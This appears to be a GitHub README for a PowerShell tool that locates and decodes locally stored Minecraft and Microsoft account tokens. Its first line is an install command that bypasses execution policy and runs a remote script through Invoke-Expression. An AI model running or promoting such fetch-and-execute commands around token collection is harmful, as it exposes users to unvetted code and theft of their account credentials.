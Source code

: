 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

🛠️ **ALTS-CHECKER TOOL**

🔐 **PowerShell script to analyze locally stored Minecraft accounts**.
 - This PowerShell tool allows you to view, inspect, and decode Minecraft accounts stored in local files by TLauncher or the official Minecraft launcher, including Microsoft OAuth tokens (accessToken / id_token) when available.

📁**Open Log Folders**
 - Automatically opens log folders.

🔍 **Search for Deleted Logs**
 - Uses fsutil usn readjournal to detect traces of deleted files like:
  - latest.log, .log.gz, launcher_profiles.json, usernamecache.json, etc.
  - Results are saved to logs.txt and opened in Notepad.

🧾 **View Minecraft Accounts**
 - Scans and parses the following files:
   - TlauncherProfiles.json
   - launcher_accounts.json
   - usernamecache.json
   - usercache.json

**Displays information for each account found**:
 - Username
 - UUID
 - Account type
 - Microsoft token present ✅ / ❌
 - If a token is found, it’s decoded to show JWT claims in a readable table.

🔓 **Microsoft Token Decoder**
 - Function: Decode-Jwt
 - Accepts a JWT (accessToken or id_token).
 - Splits and base64-decodes the payload.
 - Returns readable JSON claims.

⚠️ **Requirements**
 - Windows PowerShell
 - Admin rights (for deleted file search)
 - TLauncher or Minecraft Launcher installed

📁 **Files Analyzed**
 - %APPDATA%\.minecraft\TlauncherProfiles.json
 - %APPDATA%\.minecraft\launcher_accounts.json
 - %APPDATA%\.minecraft\usernamecache.json
 - %APPDATA%\.minecraft\usercache.json

📜 **Legal Notice**

This tool is intended for personal use and debugging only. It must not be used to violate any terms of service or access unauthorized accounts.
The author is not responsible for any misuse of this script.
